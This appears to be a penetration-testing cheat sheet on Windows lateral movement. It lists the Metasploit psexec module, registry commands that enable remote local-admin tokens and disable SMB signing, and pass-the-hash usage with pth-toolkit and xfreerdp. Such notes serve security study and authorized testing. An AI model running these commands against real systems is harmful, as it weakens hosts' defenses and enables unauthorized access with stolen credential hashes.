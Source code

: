 ## Meterpreter
- psexec
- use exploit/windows/smb/psexec
- Add a new DWORD (32-bit) named LocalAccountTokenFilterPolicy and set it to 1
	- (powershell) Set-ItemProperty -Path HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System -Name LocalAccountTokenFilterPolicy -Value 1 -Type Dword
	- reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System" /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
- Add a new DWORD (32-bit) named RequireSecuritySignature and set it to 0
	- (powershell) Set-ItemProperty -Path HKLM:\System\CurrentControlSet\Services\LanManServer\Parameters -Name RequireSecuritySignature -Value 0 -Type Dword 
	- reg add "HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LanManServer\Parameters " /v RequireSecuritySignature /t REG_DWORD /d 0 /f

## Non-Meterpreter

**Pass the hash**
- pth-smbclient 
- https://github.com/byt3bl33d3r/pth-toolkit

**RDP**
- xfreerdp /u:[user] /d:[domain] /pth:[hash] /v:[ip]




